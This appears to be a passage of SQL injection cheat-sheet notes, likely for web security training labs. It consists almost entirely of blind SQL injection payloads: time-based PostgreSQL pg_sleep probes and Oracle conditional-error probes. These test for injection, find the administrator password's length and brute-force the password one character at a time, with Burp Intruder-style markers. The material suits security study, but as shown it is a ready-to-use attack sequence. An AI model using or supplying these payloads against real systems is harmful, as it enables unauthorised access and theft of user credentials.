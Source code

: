 Brute force password character

```txt
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,2,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,8,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

<br />

## Conditional Error

### 1. First Check

```txt
'
''
'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM fake_table)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1||'
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

### 2. Check if Content Value Exists

```txt
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

If so, determine the password length

```txt
''||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
''||(SELECT CASE WHEN LENGTH(password)=8 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Brute force password character

```txt
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
'||(SELECT CASE WHEN SUBSTR(password,8,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
